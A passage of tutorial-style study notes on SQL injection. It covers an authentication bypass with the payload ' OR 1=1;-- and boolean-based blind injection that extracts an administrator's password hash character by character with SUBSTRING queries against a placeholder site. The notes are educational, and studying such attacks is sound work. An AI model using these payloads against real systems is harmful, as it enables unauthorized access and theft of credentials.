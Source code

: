 9. Accessing the Target Account:  
- Use the extracted credentials (e.g., Martin's username and password) to log in or progress further.
___
## Inferential (Blind) SQL injection
Blind SQL Injection occurs when error messages and query results are suppressed, giving little or no visible feedback. However, the injection still works, and subtle indications (like changes in page behavior) can be used to infer database information.  
### Inferential (Blind) SQL injection - Authentication Bypass

**Authentication Bypass**:  
- Objective: Bypass login forms without needing to know valid usernames or passwords.  
- How It Works: Login forms check whether a username-password pair exists in the database and respond with "true" or "false." By crafting a query that always evaluates to "true," attackers can bypass authentication.  
- Example Query:
Inputting `' OR 1=1;--` into the password field modifies the SQL query as follows:  
`SELECT * FROM users WHERE username='' AND password='' OR 1=1;`  
The condition `1=1` always evaluates to true. Using the `OR` operator forces the query to succeed, granting access.

**Example**:  
- Original query:  
`SELECT * FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;`  
- Exploited query (password input: `' OR 1=1;--`) 
`SELECT * FROM users WHERE username='' AND password='' OR 1=1;`  
- Result: The database returns "true," bypassing the login check.

### Inferential (Blind) SQL injection - Boolean Based
Boolean-based SQL Injection relies on receiving true/false responses (e.g., yes/no, 1/0) to confirm whether injected queries are successful. Despite the limited feedback, attackers can fully enumerate a database structure and its contents.
**Example explanation**
Example URL:  
`www.random.com/app.php?id=1`  
Backend Query:
`select title from product where id =1`
Payload #1 (False):  
`www.random.com/app.php?id=1 and 1=2`  
Backend Query:  
`select title from product where id =1 and 1=2`  
Payload #2 (True):  
`www.random.com/app.php?id=1 and 1=1`  
Backend Query:  
`select title from product where id =1 and 1=1`  
So how this attack can be used actually be used:  
Imagine you have a Users Table:  
`Administrator / eesf651wa69f1we69f51w69f51swe6f51wsaf65ewf16w51f6w1f6`  
How to extract the hash password for the admin?  We can ask the app TRUE or FALSE questions:  
Payload:  
```
www.random.com/app.php?id and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```
Backend Query:  
```
select title from produc where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```